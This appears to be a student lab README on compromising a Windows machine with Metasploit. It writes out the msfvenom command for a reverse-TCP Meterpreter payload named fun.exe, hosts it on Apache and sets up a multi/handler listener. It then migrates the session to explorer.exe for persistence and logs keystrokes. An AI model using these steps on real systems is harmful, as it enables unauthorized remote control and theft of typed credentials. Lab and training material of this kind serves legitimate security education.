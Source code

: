 ## Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:
Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/c5788c06-bf76-470a-b73a-f7e961243721)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/d8de3282-877c-43cd-9201-86b279836d15)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/765d78c2-7688-42f9-b83e-a26d3953adb4)

Start apache server sudo systemctl apache2 start

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/b8a353bb-25df-4f0c-8e2f-bd8f3be7848e)

Check the status of apache2

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/6ed4c9fe-0d72-4675-99f9-4c73172afa48)

Invoke msfconsole:

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/0ec2a519-5033-407d-8d13-0b86e2ad49d2)

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/fffcba32-6dfc-4dc7-97fc-14bc4551cc93)
exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/60b8627e-5e6a-4050-a50f-4ae1c92dd98f)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/6fd42cbd-3af4-4a9f-9d00-bc3540f8fa53)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/3295062d-fc87-4918-945e-eb2a205ba895)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/59e9137f-68c6-4910-9bfc-849970954b34)


keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/666ad419-9876-421b-b9d2-28a10f0189d5)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
